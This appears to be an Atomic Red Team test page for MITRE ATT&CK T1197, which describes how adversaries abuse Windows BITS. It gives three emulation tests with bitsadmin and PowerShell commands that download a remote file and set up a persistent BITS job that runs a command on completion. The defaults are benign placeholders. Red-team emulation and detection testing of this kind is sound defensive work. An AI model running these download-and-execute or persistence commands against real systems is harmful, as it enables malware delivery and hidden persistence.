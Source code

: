 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1086)  (Citation: Microsoft BITS) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool. (Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048). (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%\bitsadmin_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 
```
bitsadmin.exe /transfer /Download /priority Foreground #{remote_file} #{local_file}
```

#### Cleanup Commands:
```
del #{local_file}
```





<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP\bitsadmin_flag.ps1|


#### Attack Commands: Run with `powershell`! 
```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | %temp%\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | %temp%\bitsadmin_flag.ps1|


#### Attack Commands: Run with `command_prompt`! 
```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```






<br/>
